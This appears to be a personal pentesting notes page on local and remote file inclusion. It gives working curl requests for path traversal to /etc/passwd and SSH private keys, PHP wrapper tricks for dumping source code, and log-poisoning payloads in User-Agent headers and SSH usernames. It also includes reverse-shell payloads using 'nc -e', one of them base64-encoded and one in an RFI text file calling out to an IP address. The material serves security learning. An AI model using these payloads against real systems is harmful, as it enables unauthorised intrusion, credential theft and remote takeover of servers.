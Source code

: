 ```yaml
---
layout: post
title: 'Notes | LFI & RFI'
permalink: /notes/web/lfi-rfi/
---
```


# Local file inclusion
**LFI** is the process to include files locate in the server through the exploiting of vulnerable inclusion.
For example:
{% highlight plain %}
http://localhost/example.php?file=../../../../../../../etc/passwd
{% endhighlight %}

With the terminal we can check easily:
{% highlight bash %}
> curl -s "http://localhost/example.php?file=/etc/passwd"
{% endhighlight %}
##### **-s**: no verbose

We can check some important files:
- **/home/user/.ssh/id_rsa ->** check credentials for a ssh connection, with **ssh2john** we can break any ssh password if its weak or we have it in a dictionary.
- **/proc/sched_debug ->**  show many running scripts
- **/proc/net/fib_trie ->** check network interfaces (with *grep -i  "host local" -B 1* we can get local ip).
- **/proc/net/tcp ->** check port. The last four digits from the second column (rem_address), if we add a **0x** in Python before we can get the port (its common to not get ports like 80 here).

###  Directory Path Traversal
If the web is sanitaze with only one path allowed, we can move using **../**:
{% highlight bash %}
> curl -s "http://localhost/example.php?file=../../../../../../../etc/passwd"
{% endhighlight %}

The web can set and extension to the end of the path, we can escape than with: **%00** at the end of the search.

#### Wrappers
Help to escape LFI sanitazer. For example:
- **?file=file:///etc/passwd ->** get the file.
- **?file=php:///filter/convert.base64-encode/resource=file.php ->** give all the content file (including comments) in base64 (useful to get the whole source code).

###  Log Poisoning
Change logs in order to recreate a RCE.

#### Reverse Shell
We can execute code accesing **/proc/self/environ**. We can modify the header in burpsuite to add:
{% highlight php %}
<?passthru('nc -e /bin/bash <ip> <port>');?>
{% endhighlight %}
To execute the reverse shell.

#### Apache2
In **/var/log/apache2/access.log** we can manipulate the user agent that the log is currently saving in the logs with curl. For example:
{% highlight bash %}
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
{% endhighlight %}
Now we can execute code in the system.

Also, we can try to login (for example with ssh). **auth.log** will save the login attempt, if we execute the page after the login we will execute the script.
##### Maybe we need to encode the payload to base64

Another example is the **/var/log/auth.log**. We can try to log in by ssh with and invalid user and see that all the trys are been saving in the log.
If we log as a command, execute the log (loading with curl or in the web with LFI) we can execute the command and get a **reverse shell**:
- First we encode the connection (with netcat).
{% highlight bash %}
> echo 'nc -e /bin/bash 127.0.0.1:443' | base64; echo
  bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK
{% endhighlight %}
- Then we send this "user" to the log:
{% highlight bash %}
> ssh '<¿php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK | base64 -d | bash"); ?>'@127.0.0.1 
{% endhighlight %}
Then we will try to log in with any password. Now we just need to reload the log in the web, then the code is executed.
{% highlight bash %}
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/auth.log"
{% endhighlight %}


# Remote File Inclusion (RFI)
Load files into the server.

We can create a plain file (**.txt**) with a php content:
{% highlight php %}
<?php
  passthru('nc -e /bin/sh 192.168.1.134 9000');
?>
{% endhighlight %}

Then we change the url with:
{% highlight plain %}
...?index=http://<ip>/revershell.txt
{% endhighlight %}
And then we can execute code.